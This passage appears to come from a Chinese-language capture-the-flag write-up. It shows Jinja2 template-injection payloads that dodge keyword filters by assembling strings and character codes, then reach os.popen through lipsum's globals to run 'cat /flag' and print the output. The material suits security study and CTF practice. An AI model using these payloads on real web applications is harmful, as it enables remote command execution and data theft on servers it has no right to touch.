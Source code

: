 ```
{%print command%}
```
获取read
```
name={%set read=dict(read=a)|join%}{%print read%}
```
最后就是拼接执行命令
```
name={%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set pp=dict(po=a,pen=b)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(dict(chr=a)|join)%}
{%set command=char(five*five*four-one)%2bchar(five*five*four-three)%2bchar(four*five*six-four)%2bchar(four*eight)%2bchar(six*eight-one)%2bchar(three*six*six-six)%2bchar(three*six*six)%2bchar(five*five*four-three)%2bchar(three*six*six-five)%}
{%set read=dict(read=a)|join%}{%print (lipsum|attr(globals))|attr(get)(shell)|attr(pp)(command)|attr(read)()%}
```
这是最麻烦的写法
正常的
```
{% set pop=dict(pop=1)|join %}   
 
{% set kong=(lipsum|string|list)|attr(pop)(9) %}
 
{% set xhx=(lipsum|string|list)|attr(pop)(18) %}
 
{% set re=(config|string|list)|attr(pop)(239) %}
 
{% set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join %}
 
{% set geti=(xhx,xhx,dict(get=a,item=b)|join,xhx,xhx)|join %}
 
{% set o=dict(o=a,s=b)|join %}
 
{% set po=dict(pop=a,en=b)|join %}
 
{% set cmd=(dict(cat=a)|join,kong,re,dict(flag=a)|join)|join %}
 
{% set read=dict(read=a)|join %}
 
{% print(lipsum|attr(globals)|attr(geti)(o)|attr(po)(cmd)|attr(read)()) %}
 
这里原型是
 
lipsum.__globals__.getitem[os].popen(cat flag).read()
 
类似于这种
```
